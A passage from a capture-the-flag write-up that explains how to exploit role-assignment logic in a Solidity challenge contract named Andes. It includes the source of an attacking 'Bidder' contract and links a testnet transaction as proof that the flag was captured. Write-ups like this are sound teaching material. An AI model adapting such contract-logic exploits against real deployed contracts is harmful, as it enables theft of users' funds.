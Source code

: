 ### The Attack
This is what we have so far:

- only designators can set the next selector, and it cannot be itself
- only selectors can set the next number
- only designators can play a round

So to launch the attack, we're going to need something a little bit
more sophisticated; two contracts, `Bidder` and `Designator`.
`Designator`'s constructor will launch the whole attack and call
`Attack` to set `Designator` as a valid designator.  `Bidder` will
also purchase the bid at index 0.

Now that `Designator` is a designator, it can set the next number to 0
and play a round.  Then, naturally, `Bidder` will win the round, then
we can get the flag!

The contracts are really quite simple, and I just performed some steps
interactively.  Once again, here's
[proof](https://goerli.etherscan.io/tx/0xb5e9313089de6918eba81e8ef712ef6950a9a9c24112d71d64f61bdb9c699b50)
that we got the flag.

```solidity
pragma solidity ^0.7.6;
import "./andes.sol";

// Makes bid
contract Bidder {
    Andes andes;
    bytes32 token;

    event MyBalanceIs(address caller, string message, uint b);

    constructor(address _andes) {
        andes = Andes(_andes);
        andes.register();
        andes.purchaseBid(0);
        andes.designateOwner();
    }

    function designate(address other) public {
        andes.setNextSelector(other);
    }

    function setToken(bytes32 _token) public {
        token = _token;
    }

    function getFlag() public {
        andes.getFlag(token);
    }

    function getBalance() public {
        uint b = andes.getBalance();
        emit MyBalanceIs(msg.sender, "Balance got", b);
    }
}
```
